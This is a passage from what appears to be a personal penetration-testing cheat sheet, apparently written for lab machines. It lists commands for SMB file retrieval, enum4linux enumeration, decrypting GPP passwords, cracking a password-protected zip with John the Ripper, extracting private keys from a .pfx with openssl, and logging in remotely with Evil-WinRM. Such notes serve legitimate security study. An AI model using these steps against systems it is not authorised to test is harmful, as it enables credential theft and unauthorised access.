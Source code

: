 ```
recurse on
prompt off
mget *

```

### enum4linux
```
enum4linux -M + ip 
enum4linux -a 10.10.10.100
```

# GPP Passwords
```
Groups.xml => contan hash gpp 
to decrypt it use 
	gpp-decrypt + The hash
```

# file compressed have password
```
1- zip2john winrm_backup.zip > winrm_backup.hash => to get the hash of file and try to broke it by John the Ripper or Hashcat

2- john --wordlist=/path/to/wordlist.txt winrm_backup.hash

3- unzip winrm_backup.zip



```
# openssl => used with extention`.pfx`
may be contain Public Certificate and Private Key
```
1- openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out private.key
to show Private Key

2- openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out certificate.crt
to show Public Certificate

3- openssl rsa -in private.key -out private_unencrypted.key
to unencrypted the private key

```

# **Evil-WinRM**
```
1- sudo gem install evil-winrm

2-
evil-winrm -i [IP_ADDRESS] -S -k private.key -c cert.crt

OR
evil-winrm -i <Target_IP> -u legacyy -k private_unencrypted.key



otherwayes

```
